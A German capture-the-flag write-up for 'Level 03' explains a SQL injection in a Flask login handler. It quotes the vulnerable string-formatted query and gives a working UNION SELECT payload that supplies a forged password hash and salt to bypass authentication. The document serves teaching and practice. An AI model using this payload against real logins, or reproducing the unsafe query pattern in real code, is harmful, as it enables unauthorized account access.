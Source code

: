 LEVEL 03
========

SQL injection vulnerability

'UNION SELECT id,
"6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28", " "
FROM users LIMIT 1--

---

Bei der Anwendung aus Level03 müssen wir uns als korrekter User (in diesem Fall User *Bob*) einloggen um das korrekte Passwort zu bekommen. Hier in dem Fall haben wir keinerlei Möglichkeit an ein korrektes Passowrt für den User zu finden,... das Codestück von Interesse ist folgendes:

    @app.route('/login', methods=['POST'])
    def login():
        username = flask.request.form.get('username')
        password = flask.request.form.get('password')

        if not username:
            return "Must provide username\n"

        if not password:
            return "Must provide password\n"

        conn = sqlite3.connect(os.path.join(data_dir, 'users.db'))
        cursor = conn.cursor()

        query = """SELECT id, password_hash, salt FROM users
                   WHERE username = '{0}' LIMIT 1""".format(username)
        cursor.execute(query)

        res = cursor.fetchone()
        if not res:
            return "There's no such user {0}!\n".format(username)
        user_id, password_hash, salt = res

        calculated_hash = hashlib.sha256(password + salt)
        if calculated_hash.hexdigest() != password_hash:
            return "That's not the password for {0}!\n".format(username)

        flask.session['user_id'] = user_id
        return flask.redirect(absolute_url('/'))

Wir wir lesen können werden sowohl Username als auch Passwort aus den übergebenen Parametern genommen. Es wird weder validiert noch escaped. Hier können wir also eine SQL Injection vornehmen. Einen verfrühten Abschluß des Statements und das anhängen eines zweiten Statements (bspw. UPDATE) funktioniert hier nicht, da hier lediglich ein Statement pro execute() vorhanden sein darf. Weiter hilft hier ein UNION SELECT [Wikipedia](http://de.wikipedia.org/wiki/SQL-Injection#Aussp.C3.A4hen_von_Daten). Geben wir als Username 

    'UNION SELECT id, "6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28", " " FROM users LIMIT 1--

ein, so werden wir autorisiert. Wieso funktioniert das?

    user_id, password_hash, salt = res

    calculated_hash = hashlib.sha256(password + salt)
    if calculated_hash.hexdigest() != password_hash:

Hier sehen wir, wie der hash errechnet wird. Durch den UNION SELECT können wir sowohl password_hash als auch den salt überschreiben. Der salt ist hier also ein Leerzeichen, der password_hash ist 6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28. Dies entspricht nämlich dem Hash zweier Leerzeichen - das eine ist der Salt, das andere das Leerzeichen, das wir als Passwort in der Eingabemaske eingeben.

    >>> hashlib.sha256(' ' + ' ').hexdigest()
    '6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28'
